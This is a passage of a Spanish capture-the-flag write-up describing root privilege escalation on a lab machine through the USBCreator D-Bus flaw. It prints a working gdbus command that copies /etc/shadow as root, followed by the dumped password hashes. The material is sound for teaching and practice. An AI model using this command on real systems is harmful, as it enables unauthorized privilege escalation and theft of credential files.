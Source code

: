Listos, somos `nadav`, sigamos enumerando y veamos como convertirnos en usuario administrador...

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Después de enumeración básica con scripts, dejar pasar cosas y enredarme con otras, no encontré nada útil, simplemente que hay un servicio llamado `CUPS` corriendo localmente en el puerto `631`... Pero esto fue un lindo rabbit hole en el que perdí un buen rato :(

Realizando un escaneo de procesos corriendo en la máquina, notamos que hay uno ejecutándose con privilegios de administrador:

```bash
nadav@passage:~$ ps aux
...
root      35653  0.0  0.5 235544 20112 ?        Sl   15:48   0:00 /usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
nadav     35999  0.0  0.0  44404  3032 pts/23   R+   16:45   0:00 ps aux
```

Buscando en internet `usb-creator exploit` nos encontramos un lindo artículo en el que se explica el funcionamiento de USBCreator y D-Bus, en el sistema. Básicamente la vulnerabilidad consiste en que podemos sobreescribir archivos del sistema y todo con el usuario `root` sin necesidad de contraseña.

> A system bus, which is mainly used by privileged services to expose system-wide relevant services, and one session bus for each logged in user, which exposes services that are only relevant to that specific user. [PaloAltoNetworks](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

* [Artículo explicando funcionamiento de D-Bus y la vulnerabilidad en **com.ubuntu.USBCreator**](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/).

> Recomiendo mucho leer el artículo :)

La vulnerabilidad se da por una herramienta de **Unix** (`dd`), la cual es usada por `USBCreator`. Que es la que nos permite copiar archivos. Intentemos copiarnos el archivo `/etc/shadow`.

```bash
nadav@passage:/dev/shm$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /etc/shadow /dev/shm/shadow true
()
nadav@passage:/dev/shm$ ls | grep shadow
shadow
nadav@passage:/dev/shm$
```

```bash
nadav@passage:/dev/shm$ cat shadow                                                              
root:$6$mjc8Tvgr$L56bn5KQDtOyKRdXBTL4xcmT7FVWJbds.Fo0FVc11PWliaNu5ASAxKzaEddyaYGMxGQPUNo5UpxT/nawzS8TW0:18464:0:99999:7:::
...
nadav:$6$D30IVulR$vENayGqKX8L0RYB/wcf7ZMfFHyCedmEIu4zXw7bZcH3GBrCrBzHJ3Y/in96pthdcp5cU.0UTXobQLu7T0INzk1:18464:0:99999:7:::
paul:$6$cpGlwRS2$AhcQyxAskjvAQtS4vpO0VgNW0liHRbLSosZlrHpzL3XTfPHmeDL7hWkut1kCjgNnEHIdU9J019hQTAMH6nzxe1:18464:0:99999:7:::
```
